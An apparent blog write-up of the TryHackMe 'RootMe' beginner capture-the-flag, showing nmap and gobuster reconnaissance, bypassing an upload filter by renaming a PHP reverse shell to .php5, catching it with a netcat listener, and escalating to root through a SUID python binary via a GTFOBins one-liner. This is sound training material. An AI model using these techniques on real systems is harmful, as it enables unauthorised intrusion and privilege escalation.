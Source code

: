 +++
title = "Root Me"
date = "2021-02-12"
+++

# Try Hack Me - RootMe
A ctf for beginners, can you root me?
<br>
---
## Reconnaissance
1. Scan the machine, how many ports are open?
	Here is the nmap scann commands that I am going to be using.
	```
	nmap -sC -sV -T4 -A -oN nmap/result <IP>
	```
	Breakdown:
	```
	-A: do an extensive scan on these ports

	-sC: Scan with default NSE scripts. Considered useful for discovery and safe

	-sV: Attempts to determine the version of the service running on port

	-T4: speed of nmap scan is 4/5 (personal preference of mine)

	-oN: Normal output to the file normal.file
	```
2. What version of Apache is running?
		Let's review out nmap scans and see if we are able to find what version of Apache we are running.
	```
	Host is up (0.14s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
	|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
	|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: HackIT - Home
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```

3. What service is running on port 22?
	If you review the resutls fo the nmap scan you will see that there is a service running on port 22.
 4. Find directories on the web server using the GoBuster tool.
 	We are going to run the following gobuster command to search for the hidden directory that they want us to find.
	 ```
	 gobuster dir -t 40 -u <IP> -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
	 ```
	 Breakdown:
	 ```
	-u: Full URL (including scheme), or base domain name.

	-t: Thread Usage, declare how mand thread you would like gobuster to use. (Default is 10)

	-w: Path to the wordlist used for brute forcing (use – for stdin)
	```

 5. What is the hidden directory?
	 Do any of these directiores stand out!
	 ```
	 ===============================================================
	Gobuster v3.0.1
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://<IP>/
	[+] Threads:        40
	[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2021/02/11 19:14:32 Starting gobuster
	===============================================================
	/uploads (Status: 301)
	/css (Status: 301)
	/js (Status: 301)
	/panel (Status: 301)
	Progress: 23943 / 220561 (10.86%)^C
	[!] Keyboard interrupt detected, terminating.
	===============================================================
	2021/02/11 19:15:44 Finished
	===============================================================

	 ```
---
## Getting a shell
1. Find a form to upload and get a reverse shell, and find the flag.
	In out last question we found a hidden directory.
	Let's open up our browser and got the following `http:\\<IP>\uploads`
{{< figure src="/images/rootme/1.png" width="200">}}
	Now lets try and upload a php reverse shell.  
	[Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) is a great resourse for us to use.
	Now that we have our reverse shell let's add the ip address of our device into it and pick out a port we want to listen in on.
	Ok, lets try and upload our reverse shell... It looks like are now able to upload our file.
{{< figure src="/images/rootme/2.png" width="200">}}
	How about we change the extention from PHP to PHP5 and then try again.
	How about them apples, it uploaded. 
	Before we try and excute our payload lets set up a netcat listener.
	`nc -nlvp <port#>`
	Once our listener has been set up lets pull the trigger on our reverse shell and see if a connection can be made.
{{< figure src="/images/rootme/3.png" width="200">}}
BOOM!! We have a connection.
The next thing we need to do is find the user.txt file.
I tried looking in all the stander places like the current user directory and in the home directory but I did not have any luck.
So I decided to use the find command `find / -type f -name user.txt 2> /dev/null`
With this command I was able to locate where our user.txt file is. 
Now all we need to do is cat out the content of our user.txt file and we will have our flag.  

Breakdown:
```
* -type f – you are telling find to look exclusively for files
* -name user.txt – instructing the find command to search for a file with the name “user.txt”
* 2> /dev/null – so error messages do not show up as part of the search result 
```


## Privilege escalation
---
1. Search for files with SUID permission, which file is weird?
	Again here we are going to be using the `find` command to help us locate our file with a weird SUID permission.
```
find / -type f -user root -perm -u=s 2> /dev/null_**
```
Now how can use leverage this what we have found to escalate out privileges to a root shell.
[GTFO Bins](https://gtfobins.github.io/gtfobins/python/#suid) is another great resourse that we can use. 
Let's head over there and look up the SUID for python.
It seems that we are that we are able to use the code below to gain a root shell.
````
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
````
2. root.txt
	One we have verified that we are actually running as root we will just need to cat out the content of out root.txt file.
`cat /root/root.txt`

# Congratulations you have just completed the RootMe challenge from TryHackMe!
